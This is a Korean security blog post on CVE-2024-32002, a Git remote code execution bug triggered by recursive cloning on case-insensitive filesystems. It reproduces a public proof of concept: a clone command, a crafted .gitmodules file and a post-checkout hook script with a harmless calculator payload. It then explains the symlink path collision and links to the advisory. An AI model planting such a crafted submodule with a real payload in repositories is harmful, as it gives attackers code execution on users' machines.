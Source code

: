 ```yaml
---
title: "CVE-2024-32002 Exploiting Git RCE via git clone"
description: "git clone 명령만으로 RCE 취약점이 발생한다..?"
author: bde574786
date: 2024-10-27 21:55:00 +0900
categories: [최근 보안 이슈]
tags: [Recent Issue, CVE, Git, RCE]
image: assets/posts/security-issue/2024-10-27/img-001.png
---
```


## **Details**
Git의 git clone 기능에는 저장소의 **하위 모듈(submodule)**을 재귀적으로 함께 클론하는 `--recursive`  옵션이 포함되어 있다. 또한, Git은 **심볼릭 링크(Symbolic Link)**를 지원하여, 이를 통해 저장소의 다른 부분을 참조할 수 있다.
이 취약점은 대소문자를 구분하지 않는 파일 시스템 (Windows, MacOS)에서 발생한다.


## **Affected Versions**
- v2.45.0
- v2.44.0
- <= v2.43.3
- <= v2.42.1
- v2.41.0
- <= v2.40.1
- <= v2.39.3

## **PoC**
⚠️ Warning: 해당 PoC 실행 시 반드시 허가받은 시스템에서만 수행해야 한다.

환경 구축의 제한사항과 편의를 고려하여 이미 만들어진 PoC를 테스트하였다.

> [https://github.com/amalmurali47/git_rce?tab=readme-ov-file](https://github.com/amalmurali47/git_rce?tab=readme-ov-file)

<br>
- Git을 사용해 git_rce라는 이름의 원격 Repository를 클론하는 동시에, 서브모듈을 함께 클론한다.
```bash
git clone --recursive git@github.com:amalmurali47/git_rce.git
```

<br>
- 아래 파일은 Git Repository에서 서브모듈을 추가할 때 사용되는 .gitmodules 구성 파일이다.
- Git이 서브모듈을 클론할 때, 현재 로컬 Repository 루트 경로에 A/modules/x 폴더가 생성되며 url에 지정된 원격 Repository의 악성 후크 파일이 A/modules/x에 클론될 것이다.
```bash
[submodule "x/y"]
	path = A/modules/x  # Local path for the submodule
	url = git@github.com:amalmurali47/hook.git  # Remote repository URL
```

<br>
- 위 서브모듈 url은 [https://github.com/amalmurali47/hook](https://github.com/amalmurali47/hook) 저장소를 가리키고 있으며 해당 저장소에는 hook/post-checkout 경로에는 공격자가 의도한 악성 스크립트가 작성되어 있다.
```bash
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

<br>
Boom..!!<br>
![image.png](assets/posts/security-issue/2024-10-27/img-002.png)

<br>
## **How It Works**
- **특수 경로의 심볼릭 링크 설정**
    - 공격자는 .git을 가리키는 심볼릭 링크를 저장소 안에 생성하고, 이 링크의 이름을 a로 설정한다.
    - 서브모듈의 경로는 대소문자를 변형하여 설정되며, 이는 대소문자 구분을 하지 않는 파일 시스템(Windows, Mac)의 취약점을 겨냥한다.
- **서브모듈 경로 충돌 유도**
    - Git은 서브모듈을 A/modules/x 경로에 클론하려고 시도하지만, 대소문자 구분이 없는 파일 시스템에서 A와 a가 동일하게 인식된다.
- **경로 우회로 악성 후크 위치 설정**
    - 결과적으로 Git은 서브모듈의 후크 스크립트를 .git/hooks 아래에 배치하게 된다.
    - 이 후크는 공격자의 명령이 포함되어 사용자의 시스템에서 RCE가 발생하게 된다.

<br>

따라서, 사용자가 단순히 해당 Repository를 클론하기만 해도 공격자가 의도한 악성 코드가 실행될 수 있다.
해당 취약점은 Git의 core.sysmlinks 기능이 활성화된 Windows와 MacOS에 취약하다.

<br>
## **Reference**
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)<br>
[https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv](https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv)<br>
[https://amalmurali.me/posts/git-rce/](https://amalmurali.me/posts/git-rce/)